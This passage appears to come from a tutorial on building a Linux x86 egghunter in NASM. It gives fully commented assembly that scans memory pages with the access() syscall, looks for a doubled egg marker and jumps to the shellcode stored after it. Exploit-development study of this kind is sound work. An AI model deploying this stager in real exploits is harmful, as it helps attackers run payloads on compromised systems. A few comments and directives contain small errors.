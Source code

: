 Finally, both `CMP` calls result in zeros then we tell the code to `JMP` to `edx` which will execute the code stored there (our real payload). 

```nasm
    cmp al, 0xf2
    popad
    jz page_forward
    
    cmp [edx], ebx
    jnz address_check
    
    cmp [edx+4], ebx
    jnz address_check
    
    jmp edx
```

## Completed Assembly Code 

```nasm
global_start

section .text
_start:
  
mov ebx, 0x50905090	; here, we're just going to store a 4 byte value in $ebx as our egg
xor ecx, ecx		
mul ecx

page_forward:		; here, we're going to design a function of what to do if we get an EFAULT error
or dx, 0xfff		; doing a bitwise logical OR against the $dx value

address_check:		; here we're going to design a function to check the next 8 bytes of mem
inc edx			; gets $edx to a nice multiple of 4096
pushad			; this will preserve our register values by pushing them onto a stack while we syscall
lea ebx, [edx+4]	; putting edx plus 8 to check if this fresh page is readable by us
mov al, 0x21		; syscall for access(), we know this by now :)
int 0x80

cmp al, 0xf2		; does the low-end of $eax equal 0xf2? In other words, did we get an EFAULT? 
popad			; restore our register values we preserved
jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

cmp [edx], ebx		; is what is stored at the address of $edx our egg (0x50905090) ?
jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg

cmp [edx+4], ebx	; we found our egg once, let's see if it's also in $edx + 4
jnz address_check	; we found it once but not twice, have to keep looking

jmp edx			; we found it twice! go to edx (where our egg is) and execute the code there! 
```
